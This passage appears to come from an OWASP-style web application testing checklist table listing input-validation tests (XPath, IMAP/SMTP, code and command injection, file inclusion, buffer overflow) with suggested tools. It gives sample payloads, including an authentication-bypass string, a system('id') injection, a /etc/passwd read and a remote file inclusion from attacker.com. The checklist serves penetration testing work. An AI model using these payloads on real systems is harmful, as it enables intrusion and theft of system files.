 |OTG-INPVAL-010                             |Testing for XPath Injection                                               |Check for XML error enumeration by supplying a single quote (')<br>Username: ‘ or ‘1’ = ‘1<br>Password: ‘ or ‘1’ = ‘1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |Burp Proxy, ZAP|
|OTG-INPVAL-011                             |IMAP/SMTP Injection                                                       |• Identifying vulnerable parameters with special characters<br>(i.e.: \\, ‘, “, @, #, !, |)<br>• Understanding the data flow and deployment structure of the client<br>• IMAP/SMTP command injection (Header, Body, Footer)                                                                                                                                                                                                                                                                                                                                                                                                                                                               |Burp Proxy, ZAP|
|OTG-INPVAL-012                             |Testing for Code Injection                                                |Enter OS commands in the input field.<br>?arg=1; system('id')                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Burp Proxy, ZAP, Liffy, Panoptic|
|                                           |Testing for Local File Inclusion                                          |LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |Burp Proxy, fimap, Liffy|
|                                           |Testing for Remote File Inclusion                                         |RFI from malicious URL<br>`?page.php?file=http://attacker.com/malicious\_page`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |Burp Proxy, fimap, Liffy|
|OTG-INPVAL-013                             |Testing for Command Injection                                             |Understand the application platform, OS, folder structure, relative path and execute OS commands on a Web server.<br>%3Bcat%20/etc/passwd<br>test.pdf+|+Dir C:\\                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |Burp Proxy, ZAP, Commix|
|OTG-INPVAL-014                             |Testing for Buffer overflow                                               |• Testing for heap overflow vulnerability<br>• Testing for stack overflow vulnerability<br>• Testing for format string vulnerability                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |Immunity Canvas, Spike, MSF, Nessus|